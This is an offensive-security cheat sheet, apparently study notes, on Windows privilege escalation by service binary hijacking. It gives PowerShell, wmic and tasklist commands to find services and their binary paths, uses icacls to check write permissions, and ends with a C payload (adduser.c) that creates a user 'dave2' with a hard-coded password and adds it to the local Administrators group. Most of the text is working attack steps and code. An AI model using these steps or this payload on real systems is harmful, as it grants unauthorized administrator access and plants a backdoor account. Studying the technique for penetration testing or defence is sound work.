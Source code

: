 ## Leveraging Windows Services

Windows uses the **LocalSystem** (includes the SIDs of `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators` in its token), **Network Service**, and **Local Service** user accounts to run its own services.

Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

### Service Binary Hijacking

List of all installed Windows services

```bat
tasklist /SVC
```

```pwsh
Get-Service
```

When using a network logon such as WinRM or a bind shell, `Get-CimInstance` and `Get-Service` will result in a "permission denied" error when querying for services with a **non-administrative user**. Using an interactive logon such as RDP solves this problem.

```pwsh
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

```bat
wmic service where caption="Serviio" get name, caption, state, startmode

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"
```

**Replacing the binary of a service** needs permissions.

```pwsh
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

`adduser.c`

```C
#include <stdlib.h>

int main ()
{
 int i;
 i = system ("net user dave2 password123! /add");
 i = system ("net localgroup administrators dave2 /add");
 return 0;
}
```

